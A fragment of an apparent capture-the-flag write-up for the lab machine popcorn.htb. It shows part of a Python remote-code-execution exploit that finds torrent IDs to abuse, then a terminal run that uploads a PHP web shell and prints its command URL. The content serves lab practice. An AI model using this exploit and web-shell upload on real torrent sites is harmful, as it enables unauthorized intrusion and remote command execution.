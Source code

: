 <br />
Download a copy to the local working folder.  Update the script as there is a format function attached to print funtion instead of the string inside the function.

{% raw %}
```python
#!/usr/bin/env python

<snip>

def parseTorrents(url):
	print("[#] Browsing torrents on the website")
	request 	= requests.get(url + "index.php?mode=directory").text
	soup 		= BeautifulSoup(request, 'html.parser').find_all('td', {'align': 'left', 'width': '300'})

	if len(soup) == 0:
		exit("[!] Dang; Better luck next time!\n```\nNo torrents found on the website!\n```")

	torrents 	= []

	print("[~] Found the following torrents with IDs:\n```")
	for elements in soup[::-1]: # Reverse The List -- Select the last possible torrent to overwrite4
		# print(elements)
		tId 	= elements.a['href'].split("=")[::-1][0]
		path 	= url + "upload_file.php?mode=upload&id=" + tId
		print(tId)
		torrents.append(path)

	print("```")
	print("\n[$] Selecting the last possible torrent({}) to upload screenshot to!".format(torrents[0].split("=")[::-1][0]))
	return(torrents[0])

<snip>
```
{% endraw %}

<br />
Run the exploit.

{% raw %}
```bash
└──╼ [★]$ python rce.py --url=http://popcorn.htb/torrent/

<snip>

[#] Browsing torrents on the website
[~] Found the following torrents with IDs:

<snip>

[$] Selecting the last possible torrent(d042db4335a8c8884da040e3ab4dc2df6c3efcea) to upload screenshot to!
[#] Uploading WebShell

[$] Whoa, we got a shell dude! Spawning Console!!!
[&] Shell Uploaded: http://popcorn.htb/torrent//upload/d042db4335a8c8884da040e3ab4dc2df6c3efcea.php?c=
.
.
.
.
.
```